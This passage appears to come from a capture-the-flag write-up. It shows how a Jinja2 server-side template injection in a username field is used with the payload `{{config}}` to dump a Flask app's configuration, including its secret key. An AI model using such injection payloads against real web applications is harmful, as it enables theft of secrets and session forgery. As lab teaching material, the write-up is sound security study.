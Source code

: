 ![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_2.png?raw=true) 

Alright, the website is vulnerable to Jinja2 based SSTI. However, with a 10 character limit, we can't achieve RCE. Since this website has a Jinja2 template, it can either be running Flask or Django which are python based web frameworks. With Flask we can input `{{config}}` as our username to essentially set our username to be a call to the configuration object. And testing this works! We get the following information. 

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 
'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 
'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 
'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 
'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 
'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 
'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 
'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 
'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
